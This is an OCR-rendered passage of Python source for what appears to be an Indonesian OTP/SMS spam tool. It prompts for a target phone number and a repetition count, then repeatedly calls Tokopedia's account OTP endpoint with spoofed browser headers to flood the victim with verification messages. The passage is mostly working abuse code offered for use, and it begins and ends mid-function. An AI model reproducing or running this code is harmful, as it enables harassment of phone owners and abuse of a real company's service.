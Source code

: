 else:

print(''+C+'['+W+'*'+C+']'+W+' SPAM KE NOMOR '+C+number+W+' BERHASIL DIKIRIMKAN !')

except ConnectionError:

print

print(M+'Cek Koneksi JaringanMu Gan !')

break

except NameError:

print

print(M+'Jumlah Harus Berupa Angka, Bukan Huruf !')

break

def Tokped():

print

MesinTik(C+'\t SPAM TOKOPEDIA')

MesinTik(W+'\t================')

print

number = raw_input(''+C+'MASUKKAN NOMOR TARGET'+W+' ('+H+' Ex :'+C+' 0812xxxx '+W+') : ')

jumlah = input(''+C+'JUMLAH SPAM'+W+' ('+H+' Ex :'+C+' 3 '+W+') : ')

print

MesinTik_2(''+C+'-------------- '+W+'Starting'+C+' --------------')

print

for x in range(jumlah):

try:

headers = {

'Connection' : 'keep-alive',

'Accept' : 'application/json, text/javascript, */*; q=0.01',

'Origin' : 'https://accounts.tokopedia.com',

'X-Requested-With' : 'XMLHttpRequest', 
'User-Agent' : '{acak}',

'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',

'Accept-Encoding' : 'gzip, deflate',

} 

site = requests.get('https://accounts.tokopedia.com/otp/c/page?otp_type=116&msisdn='+number+'&ld=https%3A%2F%2Faccounts.tokopedia.com%2Fregister%3Ftype%3Dphone%26phone%3D{}%26status%3DeyJrIjp0cnVlLCJtIjp0cnVlLCJzIjpmYWxzZSwiYm90IjpmYWxzZSwiZ2MiOmZhbHNlfQ%253D%253D', headers = headers).text
